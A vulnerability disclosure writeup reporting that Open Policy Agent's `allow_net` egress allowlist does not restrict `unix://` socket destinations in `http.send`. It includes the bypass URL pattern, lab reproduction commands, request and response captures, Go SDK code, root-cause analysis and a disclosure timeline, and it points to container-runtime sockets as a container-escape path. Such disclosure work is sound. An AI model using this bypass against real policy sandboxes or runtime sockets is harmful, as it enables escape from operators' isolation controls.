



# `allow_net` does not restrict `unix://` destinations in `http.send`: one allowed hostname reaches any local UNIX socket

**Open Policy Agent** · reported 2026-09-28 · no identifier issued · public issue [#9320](https://github.com/open-policy-agent/opa/issues/9320)

| | |
|---|---|
| **Target** | OPA (`open-policy-agent/opa`) |
| **Affected** | `v1.21.0` tested and confirmed. Earlier versions untested — `unix://` support landed in #3667 (2021), `allow_net` for `http.send` in #3665 (2021), so the window is likely long |
| **Fixed in** | **Unfixed at time of writing** |
| **Class** | `CWE-918: SSRF` — egress allowlist not applied to a whole destination kind |
| **Severity** | Not scored by the vendor. See [Impact](#impact) for why a container-runtime socket makes this more than reachability |
| **Identifier** | **None.** Maintainers declined a GHSA and a CVE and recommended a public issue instead — filed as [#9320](https://github.com/open-policy-agent/opa/issues/9320) |
| **Reported by** | Adel Zaitri |

---

## Summary

`allow_net` is the one egress restriction OPA's capabilities language can express, and the docs
state what it does (`docs/docs/operations.md:153`):

> "the `allow_net` capability restricts what hosts the `http.send` built-in function may send
> requests to"

For `http.send` it is enforced in exactly two places, and both look only at the URL
**authority**. But `http.send` has a second kind of destination that is not a host at all:
`useSocket` reads the real destination out of a `socket=` **query parameter**, deletes it from
the query string, and replaces the transport's `DialContext`. That rewrite is never re-verified.

So:

```
unix://<any-hostname-in-allow_net>/path?socket=<any-path-on-disk>
```

passes the check on `<any-hostname-in-allow_net>` and then dials `<any-path-on-disk>`. The
authority is decorative — it becomes the `Host:` header and nothing else.

**This is not a partially-applied restriction. For this destination kind the restriction is not
applied at all**, and there is no configuration that turns it on. `allow_net: []`, documented as
*"NO host can be connected to"*, still permits it.

---

## The architecture that made it possible

The capabilities file is OPA's sandbox boundary for untrusted policy, and `allow_net` is the only
network control in it. That makes the control's *coverage* the whole question — not its strength.

The defect is a **destination model mismatch**. `verifyURLHost` asks "is this host allowed?",
which presumes the destination is a host. `http.send` supports a destination that is a filesystem
path, selected by a query parameter rather than by the authority. The check and the dialler are
reasoning about two different kinds of object, and the check happens to be looking at the one
that does not matter.

Two properties make this worse than an ordinary gap:

**The check is applied before a documented rewrite.** `useSocket` mutates the URL *after*
validation — it reads `socket=`, deletes the parameter, and overrides `DialContext`, discarding
both the network and address arguments the transport would have used. Any validation that runs
before a rewrite and is not re-run after it is decorative by construction.

**There is no allowlist for the new destination kind at all.** Adding `unix://` support added a
destination class that the capabilities language cannot express an opinion about. The language
grew a feature; the policy vocabulary did not.

The generalisable rule: **when a feature adds a new kind of destination, every existing egress
control becomes incomplete by default, not by accident.** And `--network none` is no mitigation
here — the dialler never touches the network namespace, which is exactly what makes a UNIX-socket
destination a different class of thing rather than a special case of a host.

---

## Impact

**Boundary crossed:** the operator's egress allowlist. The attacker is the policy author; the
victim is whoever runs policy they did not write under a network sandbox.

An HTTP request with **attacker-chosen method, path, headers and body** is delivered to any UNIX
socket the OPA process can `open(2)`, and **the full response is returned into the policy**. Both
halves are demonstrated below; neither is inferred.

The destinations that matter are the ones a UNIX socket usually is: a container-runtime socket
(`/var/run/docker.sock`, `containerd.sock`, `crio.sock`), a local agent socket, or an
unauthenticated admin socket that is unauthenticated *precisely because* it is reachable only
from the local filesystem. `POST /containers/create` needs exactly the primitive demonstrated in
the A2 row — a POST with a JSON body — so against a runtime socket this is container escape, not
merely reachability.

**I deliberately did not demonstrate that.** The receiver is a synthetic Python listener that
logs what arrives. One request reaching a socket the allowlist should have excluded is the
finding; pointing the lab at a live runtime would have added no evidence and a great deal of
noise.

### Who is affected

The population `allow_net` exists to serve, and the one OPA's own issue #4153 names: `opa eval`
/ `opa test` / `opa build` / `opa check` / `opa fmt` with `--capabilities`, and Go embedders using
`rego.Capabilities(...)`. CI that lints or evaluates third-party Rego under a capabilities file,
and any service evaluating tenant-supplied policy, is relying on `allow_net` to be the egress
boundary. **Both surfaces are demonstrated below** — the SDK path was built and run, not inferred
from shared code.

**What this is not.** It does not require the OPA *server*, and it does not depend on
authentication or authorization being disabled anywhere. There is no server in this report at
all. That matters because OPA's security policy pre-rejects attack vectors premised on a server
running without authn/authz, and this is not one of them.

---

## Reproduction

Everything runs on one machine with Docker. Automated in `evidence/repro.sh`, run end to end
from a clean state before the report was written:

```bash
./repro.sh all      # up -> control -> attack -> sdk -> repeat 3 -> down
```

### Setup

```bash
# The capabilities file. Note `opa capabilities --current` does NOT emit an allow_net key and
# there is no CLI flag for it, so hand-editing is the documented way to use it.
docker run --rm openpolicyagent/opa:1.21.0 capabilities --current > caps-base.json
# -> caps-allow-example.json  (allow_net: ["allowed.example.com"])
# -> caps-allow-listener.json (allow_net: ["rl-opa-listener"])
# -> caps-none.json           (allow_net: [])

# A synthetic UNIX-socket receiver that logs the verbatim bytes it receives.
python3 unix-receiver.py "$PWD/probe.sock" "$PWD/unix.log" "MARKER-unixsock-hit" &

# A TCP receiver as a sidecar on a private bridge. It publishes NOTHING to the host.
docker network create rl-opa-net
docker run -d --name rl-opa-listener --network rl-opa-net -w /srv python:3.12-slim \
  python3 -u -m http.server 19999 --bind 0.0.0.0
```

### Four control rows, before anything is broken

**Control P — positive control.** `allow_net` names the destination, so the request arrives.
Without this row a reader cannot distinguish a working check from a broken harness:

```
GET http://rl-opa-listener:19999/<marker>   -> status_code 404 (arrival is the point)
docker logs rl-opa-listener:
  172.20.0.3 - - [27/Sep/2026 00:41:00] "GET /<marker>-A-P-positive HTTP/1.1" 404 -
```

**Control C1 — a TCP host not in `allow_net` is refused:**

```
{ "message": "http.send: disallowed host: rl-opa-listener", "code": "eval_builtin_error" }
```

**Control C2 — the SAME `unix://` URL shape, authority not in `allow_net`, is refused.** This is
the row that makes the attack row mean something: the check is on, and on this exact URL shape:

```
url: unix://notallowed.example.com/<marker>?socket=%2Fw%2Fprobe.sock
{ "message": "http.send: disallowed host: notallowed.example.com", "code": "eval_builtin_error" }
```

**Control C3 — `allow_net: []`, documented as "NO host can be connected to", refuses:**

```
url: unix://allowed.example.com/<marker>?socket=%2Fw%2Fprobe.sock
{ "message": "http.send: disallowed host: allowed.example.com", "code": "eval_builtin_error" }
```

**After all four control rows, `unix.log` contains zero requests.** The receiver records the
verbatim bytes of anything that reaches it, so an empty log is a positive statement that the
socket was never dialled — not an absence of evidence.



### The attack — one thing changes: the authority is now an allowed one

```
url: unix://allowed.example.com/<marker>-A-bypass?socket=%2Fw%2Fprobe.sock
```

Returned **into the policy**:

```json
{
  "status_code": 200,
  "raw_body": "{\"marker\":\"<marker>-B-unixsock-hit\"}",
  "headers": { "content-length": ["46"], "content-type": ["application/json"] }
}
```

Received at the socket, verbatim from the receiver's own log:

```
b'GET /<marker>-B-A-bypass HTTP/1.1\r\nHost: allowed.example.com\r\n
  User-Agent: Go-http-client/1.1\r\nAccept-Encoding: gzip\r\nConnection: close\r\n\r\n'
```

The `Host:` header is the allowed authority, which is all the authority ever became.

**The container ran with `--network none`** — no network namespace at all — and the destination
was reached anyway, because `useSocket` replaces the transport's `DialContext` and discards both
the network and address arguments. There is no non-default network exposure in this report.



### Characterising the crossing: method, headers and body all arrive

One further row, then I stopped:

```
b'POST /<marker>-B-A2-post HTTP/1.1\r\nHost: allowed.example.com\r\n
  User-Agent: Open-Policy-Agent/1.21.0 (linux, amd64)\r\nContent-Length: 42\r\n
  Content-Type: application/json\r\nX-Cvehunt: <marker>-B-A2-header\r\n
  Accept-Encoding: gzip\r\nConnection: close\r\n\r\n{"cvehunt":"<marker>-B-A2-body"}'
```

Attacker-chosen method, custom header and JSON body, all delivered intact. That is the primitive
a runtime-socket attack needs.

### The Go SDK — the embedder path, with its own two controls

Not inferred from shared code. A Go program built against `github.com/open-policy-agent/opa
v1.21.0`, run with `--network none`, expressing the sandbox the way an embedder would:

```go
caps := ast.CapabilitiesForThisVersion()
caps.AllowNet = allowNet
r := rego.New(rego.Query(query), rego.Capabilities(caps), rego.StrictBuiltinErrors(true))
```

```
SDK CONTROL  allow_net=["allowed.example.com"]  unix://notallowed.example.com/...
             ERROR = http.send: disallowed host: notallowed.example.com
SDK CONTROL  allow_net=[]                       unix://allowed.example.com/...
             ERROR = http.send: disallowed host: allowed.example.com
SDK ATTACK   allow_net=["allowed.example.com"]  unix://allowed.example.com/...
             status_code = 200   raw_body = {"marker":"<marker>-B-unixsock-hit"}
```



### Determinism

Three consecutive reproductions, each after a full reset that asserts the receiver log is empty
before the row and holds exactly one arrival after it. 3/3, no intermittency. Transcript in
`evidence/repeat.log`.

---

## Root cause

All at `v1.21.0` (`dc6269f2c`).

**The restriction is consulted in exactly two places, both on the URL authority only.**

`v1/topdown/http.go:475` — the caller-supplied `"url"` key:

```go
case "url":
    if err := verifyURLHost(bctx.Capabilities, strVal); err != nil {
        return nil, nil, err
    }
```

`v1/topdown/http.go:648` — the redirect hook:

```go
return verifyURLHost(bctx.Capabilities, req.URL.String())
```

**And `verifyURLHost` reads `parsedURL.Host`**, which for a `unix://` URL does not determine the
destination — `:409-423`:

```go
func verifyURLHost(caps *ast.Capabilities, unverifiedURL string) error {
    if caps == nil || caps.AllowNet == nil {
        return nil
    }
    parsedURL, err := url.Parse(unverifiedURL)
    if err != nil {
        return err
    }
    host, _, _ := strings.Cut(parsedURL.Host, ":")
    return verifyHost(caps, host)
}
```

**The real destination comes from a query parameter** — `:386-398`:

```go
socket := v.Get("socket")
v.Del("socket")
u.RawQuery = v.Encode()

tr := http.DefaultTransport.(*http.Transport).Clone()
tr.DialContext = func(ctx context.Context, _, _ string) (net.Conn, error) {
    return http.DefaultTransport.(*http.Transport).DialContext(ctx, "unix", socket)
}
```

Note the two discarded parameters in the closure signature. The dialler is handed the network and
address the transport computed from the URL — and throws both away.

### A second gap in the same area

`ast.CapabilitiesForThisVersion()` never assigns `AllowNet` (`v1/ast/capabilities.go:152-170`
sets only `Builtins`, `WasmABIVersions`, `FutureKeywords` and `Features`). So a Go embedder who
does not set it explicitly has **no egress restriction at all**, and one who does set it has none
on this destination kind. Both halves of that sentence are bad news for the same user.

---

## Suggested fix

The narrow fix is to re-verify after the rewrite — validate the `socket=` value, not the
decorative authority.

The better fix is to stop treating a filesystem destination as a host at all. If restricting
socket paths is out of scope, `unix://` should require its own capability, so that an operator
granting `allow_net` is not silently granting local socket access as well. At minimum,
`allow_net: []` should mean what the documentation says it means.

---

## Outcome

| Date | Event |
|---|---|
| 2026-09-27 | Confirmed in the lab: four controls, two attack rows, the SDK path, 3/3 determinism |
| 2026-09-28 | Reported by email to `open-policy-agent-security@googlegroups.com`, per their published security policy |
| 2026-09-30 | Maintainers decline: **no GHSA, no CVE**, and recommend opening a public issue instead |
| 2026-10-02 | Public issue filed at their recommendation — [open-policy-agent/opa#9320](https://github.com/open-policy-agent/opa/issues/9320) |

**Nothing in the finding was refuted.** The decline was a classification decision, not a
technical one, and the issue is open and unfixed as of publication.

**What I take from it, stated plainly rather than as a grievance.** The route decided the
outcome, not the evidence. An email-only disclosure channel mints no identifier — there is no
draft advisory, so there is nothing an identifier could attach to — and once the vendor declines,
there is nothing to chase. A project with a private GitHub advisory workflow at least allocates a
GHSA id on draft creation; a mailbox can produce only a courteous refusal.

The residual is this writeup and issue #9320, and those are not nothing: the argument is public,
reproducible, and under my name. But if the goal of a disclosure is a durable public record,
**receptivity and disclosure route are worth weighing before any code is read** — both are
knowable in advance, and they predict the outcome better than the quality of the finding does.

---

## How I found it

By reading the capabilities language for *coverage* rather than reading the enforcement code for
*correctness*.

`allow_net` is the only network control OPA's sandbox can express, which makes it worth asking
the dumb question: what destinations exist that this cannot describe? `http.send`'s documentation
mentions UNIX sockets. A destination selected by a query parameter is not a host, and the only
check in the path is a host check — at which point the finding is a grep away rather than an
insight.

Two leads that died, both informative:

- **I expected the redirect hook at `:648` to be the interesting one** — validate the first URL,
  follow a redirect to somewhere else. It is actually fine: the hook re-validates on every hop.
  The gap is not a missing re-check on redirect, it is a rewrite that happens *inside* one hop,
  after the check.
- **I first tried to make this a server-side finding** so it would look more serious. That was a
  mistake and I dropped it. OPA's security policy explicitly pre-rejects vectors premised on a
  server with authn/authz disabled, so a server framing would have been refused on sight and
  deservedly. The report ended up with no server in it at all, which is both more honest and
  harder to dismiss.

**What the tooling did and did not do.** The harness built the containers, drove all seven rows,
asserted the receiver log was empty before each one, and built and ran the Go SDK binary. It did
not find the bug. Reading the gap between a documented feature and a documented restriction did.

---

## Credit and ethics

Reported privately first and published only after the maintainers declined and recommended public
disclosure. I disagree with the classification and the writeup says so, but the recommendation to
file publicly was made in good faith and I followed it.

All testing was performed on a local machine against synthetic listeners, with the OPA container
running `--network none` for every row that mattered. No live container runtime, no real socket,
and no third-party host was ever contacted.

---

## Evidence bundle

| File | What it is |
|---|---|
| [`evidence/repro.sh`](evidence/repro.sh) | End to end: four controls, two attack rows, SDK path, 3× repeat |
| [`evidence/control.http.txt`](evidence/control.http.txt) | All four control rows, including `allow_net: []` refusing |
| [`evidence/attack.http.txt`](evidence/attack.http.txt) | The bypass and the POST row, with verbatim socket receipts |
| [`evidence/screenshot-1-control.png`](evidence/screenshot-1-control.png) | The allowlist refusing, with OPA's own error text |
| [`evidence/screenshot-2-attack.png`](evidence/screenshot-2-attack.png) | The UNIX socket receiving the request |
| [`evidence/screenshot-3-sdk-embedder.png`](evidence/screenshot-3-sdk-embedder.png) | The Go SDK path, built and run |
| [`evidence/repeat.log`](evidence/repeat.log) | Three reproductions with empty-log assertions |
| [`evidence/versions.txt`](evidence/versions.txt) | Pinned tag, commit, image digest; the digest's own build commit |
| [`evidence/unix-receiver.py`](evidence/unix-receiver.py) | The synthetic listener |
| [`evidence/sdk/`](evidence/sdk/) | The Go embedder program |

## References

- [open-policy-agent/opa#9320](https://github.com/open-policy-agent/opa/issues/9320) — the public issue
- [OPA security policy](https://www.openpolicyagent.org/security)
- `docs/docs/operations.md:153` — the `allow_net` documentation
- OPA #3667 (UNIX socket support) and #3665 (`allow_net` for `http.send`) — the provenance
- [CWE-918: SSRF](https://cwe.mitre.org/data/definitions/918.html)
